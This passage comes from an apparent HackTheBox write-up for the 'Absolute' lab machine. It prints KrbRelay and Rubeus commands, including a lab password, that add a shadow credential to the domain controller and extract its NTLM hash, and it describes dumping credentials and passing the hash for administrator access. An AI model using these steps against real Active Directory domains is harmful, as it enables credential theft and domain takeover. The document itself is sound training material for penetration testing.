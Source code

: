 Then, we need to first add a Shadow Credential using KrbRelay through the `m.lovegod` account.&#x20;

{% code overflow="wrap" %}
```
.\runasc.exe m.lovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\krbrelay.exe -spn ldap/dc.absolute.htb -clsid {752073A1-23F2-4396-85F0-8FDB879ED0ED} -shadowcred"
```
{% endcode %}

This would generate an output like this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

What this command does is use a CLSID in order to first add a new msDS-KeyCredentialLink, which would generate another certificate for us similar to `pywhisker`. Afterwards, we can use this certificate to request a TGT as DC$ and get the NTLM hash.

<pre data-overflow="wrap"><code><strong>.\rubeus.exe asktgt /user:DC$ /certificate:&#x3C;CERT> /password:"&#x3C;PASSWORD>" /getcredentials /show
</strong></code></pre>

This would generate the NTLM hash for us:

<figure><img src="../../../.gitbook/assets/image (2) (2) (6).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` with this hash to dump the credentials out.

<figure><img src="../../../.gitbook/assets/image (3) (1) (9).png" alt=""><figcaption></figcaption></figure>

Then, pass the hash via `evil-winrm` as the administrator.

<figure><img src="../../../.gitbook/assets/image (10) (2) (1).png" alt=""><figcaption></figcaption></figure>

